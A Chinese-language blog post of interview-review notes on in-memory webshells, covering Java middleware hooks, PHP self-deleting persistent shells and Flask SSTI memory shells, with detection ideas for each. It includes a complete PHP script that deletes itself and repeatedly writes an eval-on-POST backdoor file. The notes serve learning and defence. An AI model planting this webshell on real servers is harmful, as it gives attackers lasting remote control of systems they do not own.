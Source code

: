title: 面试复习四
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2024-03-25 16:42:00
---
## 分析一下内存马
#### 内存webshell原理
  其原理是先由客户端发起一个web请求，中间件的各个独立的组件如Listener、Filter、Servlet等组件会在请求过程中做监听、判断、过滤等操作，内存马利用请求过程在内存中修改已有的组件或者动态注册一个新的组件，插入恶意的shellcode达到持久化的控制服务器。
<a href="https://smms.app/image/gDXkUQbqTjysWVp" target="_blank"><img src="https://s2.loli.net/2024/03/26/gDXkUQbqTjysWVp.png" ></a>
#### PHP内存马
##### 原理
  php内存马也就是php不死马是将不死马启动后删除本身，在内存中执行死循环，使管理员无法删除木马文件。
  对于不死马，直接删除脚本是没有用的，因为php执行的时候已经把脚本读进去解释成opcode运行了，会使用条件竞争写入同名文件进行克制不死马。
##### 检测思路
  1. 检查所有php进程处理请求的持续时间
  2. 检测执行文件是否在文件系统真实存在
##### 代码

```PHP

<?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE__);
while (1) {
	$content = ‘<?php @eval($_POST["zzz"]) ?>’;
	file_put_contents("22.php", $content);
	usleep(10000);
}
?>

函数说明：
    ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行，如果设置为 true，则忽略与用户的断开。
    set_time_limit()函数：设置允许脚本运行的时间，单位为秒。如果设置为0（零），没有时间方面的限制。
    unlink(__FILE__)函数：删除文件。
    file_put_contents函数：将一个字符串写入文件。
    usleep函数：延迟执行当前脚本若干微秒（一微秒等于一百万分之一秒）。
```

#### Python内存马
##### 原理
  Python内存马利用flask框架中ssti注入来实现，flask框架中在web应用模板渲染的过程中用到render_template_string()进行渲染，但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现python内存马的注入。
##### 检测思路
  1. 查看所有内建模块中是否包含eval、exec等可以执行代码的函数如：`class ‘warnings.catch_warnings’`、`class 'site.Quitter'`等。
  2. 检测`self.add_url_rule()`中特殊名字的路由如shell等。
